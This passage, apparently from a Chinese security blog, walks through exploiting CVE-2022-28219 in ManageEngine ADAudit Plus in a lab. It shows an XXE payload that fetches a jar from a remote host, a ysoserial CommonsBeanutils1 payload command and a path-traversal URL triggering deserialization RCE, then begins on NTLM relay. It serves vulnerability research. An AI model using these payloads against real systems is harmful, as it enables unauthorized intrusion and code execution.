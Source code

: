 成功获取到`c:/windows/win.ini`文件内容

java中的xxe还支持`jar://`协议，格式为`jar:{url}!{path}`，能从远程获取 jar 文件
jar 协议处理文件的过程：
1. 下载 jar/zip 文件到临时文件中
2. 提取出我们指定的文件
3. 删除临时文件

我们可以使用[https://github.com/pwntester/BlockingServer](https://github.com/pwntester/BlockingServer)，BlockingServer 提供文件并保持连接打开，因此临时文件不会被删除
```json
[
    {
        "DomainName": "test.org",
        "EventCode": 4688,
        "EventType": 0,
        "TimeGenerated": 0,
        "Task Content":"<?xml version=\"1.0\" encoding=\"UTF-8\"?><!DOCTYPE root [  <!ENTITY xxe SYSTEM \"jar:http://192.168.111.1:9090/calc.jar!/test.txt\">  ]><root>&xxe;</root>"
    }
]
```
![](https://img-blog.csdnimg.cn/5f6c1462d83141a389ed437dd9c43273.png)

然后列目录得到临时文件名，一般windows下的临时文件是在`C:\Users\用户名\AppData\Local\Temp`，linux下的临时文件是在`/tmp`
![](https://img-blog.csdnimg.cn/0f9d277c32df40cabc85003d6c2ddc02.png)

看到临时文件已经被写入进来了，jar协议生成的临时文件为`jar_cachexxxxxx.tmp`

该漏洞需要知道域名，我们可以POST访问`/api/agent/configuration/getAgentServerInfo`接口
![](https://img-blog.csdnimg.cn/eb96aa276bc24539b22c70cc1cb7fb64.png)

如果配置了agent之后会有完整的ServerFQDN，默认配置下得到完整域名

### 反序列化rce
使用ysoserial生成反序列化payload，因为ADAudit引用了Commons-beanutils库，所以可以生成CB载荷
```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 calc.exe > calc.jar
```
触发rce
```
http://192.168.111.138:8081/cewolf/a.png?img=/../../../../../../../../../Users/bmth/AppData/Local/Temp/jar_cache4707608721027995217.tmp
```
![](https://img-blog.csdnimg.cn/17a5f4f3f3434e41aacde6e438568806.png)

成功执行命令弹出计算器，回显的话使用tomcat回显即可
![](https://img-blog.csdnimg.cn/9bce7f9c852744b09d9f23510ea5730a.png)

网上已经公开了利用脚本：[https://github.com/horizon3ai/CVE-2022-28219](https://github.com/horizon3ai/CVE-2022-28219)

### NTLM Relay
Java在使用内置类 `sun.net.www.protocol.http.HttpURLConnection` 发送HTTP请求遇到状态码为401的HTTP返回头时，会判断该页面要求使用哪种认证方式，若采用的NTLM认证则会自动使用当前用户凭据进行认证
其根本原因在于Windows下的Java默认启用了透明NTLM认证，并且将所有由外部传入的URL地址都认为是可信的
